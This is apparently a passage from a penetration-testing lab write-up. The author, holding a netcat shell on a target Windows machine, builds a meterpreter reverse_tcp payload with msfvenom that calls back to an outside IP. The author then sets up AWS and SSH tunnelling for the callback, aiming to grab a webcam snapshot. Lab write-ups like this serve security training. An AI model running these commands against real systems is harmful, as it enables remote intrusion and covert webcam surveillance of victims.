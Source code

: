     type Bindshell5900-2.ini

![](/images/boykin_lab2/85. type_2.png)

The above bindrun.bat and Bindshell5900-2.ini files are what establish and maintain the connection which allowed us to access this machine.  Here we have a hint to the directory “C:\tmp\tools” so let's see what is there:

    dir C:\tmp\tools

![](/images/boykin_lab2/86. dir.png)

So after running the various commands above and searching through several directories (much of which was not shown) and even the tasklist, we see a directory of various tools, but we still really only have command line access through the nc connection.  We also confirmed the public IP address of Target machine 4 is 70.242.177.5.

The one hint provided to us was the final step involves taking a snapshot from an attached webcam.  An ‘easy’ way to take a still from an attached webcam is through a meterpreter shell, which means we need to upload an executable that will create a meterpreter reverse shell back to us.  To do that we will use msfvenom:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=52.12.133.246 LPORT=17011 -f exe > win_the_war.exe

-p for a payload, specifically a Windows meterpreter which will create a reverse tcp connection

LHOST is the IP address meterpreter will connect to, in this case the public IP of my AWS VPN.

LPORT is the port meterpreter will connect to

-f for fomat, in this case windows executable or exe

and finally we redirect the output into a file named “win_the_war.exe”

![](/images/boykin_lab2/87. msfvenom.png)

For my setup, I connect from my home network to a VPN server I have set up on AWS.  From there I connect to the target, which means the public IP address the meterpreter needs to call back to is the AWS VPN public IP, not my home IP address.  So, I needed to set up ssh tunnels to direct the connection to my Kali machine.

The first step was to open up a port on the AWS management console's security group, in this case 17011, and only for traffic from 70.242.177.5.

![](/images/boykin_lab2/88. aws.png)

Next, to establish the tunnel from the AWS VPN server to my Kali VM.  The Kali side of the VPN connection is 192.168.17.2, while the AWS VPN server side is 192.168.17.1.  From a terminal window on the AWS VPN server:

    sudo ssh -fN -L 0.0.0.0:17011:0.0.0.0:17011 root@192.168.17.2

![](/images/boykin_lab2/89. ssh_tunnel.png)

This establishes a listener on the AWS server on port 17011 which forwards any traffic received there through the ssh connection over the VPN interface to my local Kali machine (192.168.17.2) to port 17011 which is where I will have my msfconsole listening.
